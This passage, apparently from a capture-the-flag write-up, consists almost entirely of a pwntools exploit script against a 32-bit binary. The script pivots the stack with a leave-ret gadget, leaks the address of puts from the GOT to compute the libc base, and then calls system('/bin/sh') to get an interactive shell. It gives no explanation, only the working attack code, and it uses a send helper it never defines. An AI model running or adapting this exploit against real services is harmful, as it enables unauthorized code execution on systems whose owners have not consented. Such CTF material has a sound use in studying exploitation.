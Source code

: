 ```bash
sl      = lambda data               :p.sendline(str(data))
sls     = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
def dbg():
    gdb.attach(p,'b *$rebase(0x13aa)')
    pause()

puts_plt=0x08048350
puts_got=elf.got['puts']
s_addr=0x0804A300


leave_ret=0x08048542
main=0x08048513

ru('What is your name?')
pl=p32(0)+p32(puts_plt)+p32(main)+p32(puts_got)
s(pl)

ru('What do you want to say?')
pl2='a'*0x18+p32(s_addr)+p32(leave_ret)
s(pl2)

puts=uu32(r(4))
leak('puts',puts)

libcbase=puts-libc.symbols['puts']
leak('libcbase',libcbase)
system=libcbase+libc.symbols['system']
leak('system',system)
binsh=libcbase+next(libc.search('/bin/sh\00'))
leak('binsh',binsh)

ru('What is your name?')
pl3=p32(0)+p32(system)+p32(0)+p32(binsh)
s(pl3)

ru('What do you want to say?')
pl2='a'*0x18+p32(s_addr)+p32(leave_ret)
s(pl2)

p.interactive()
```

[![](assets/1701612250-26749ba8bb7c34aba5c15271b71731e6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230725220227-e32fe62a-2af3-1.png)
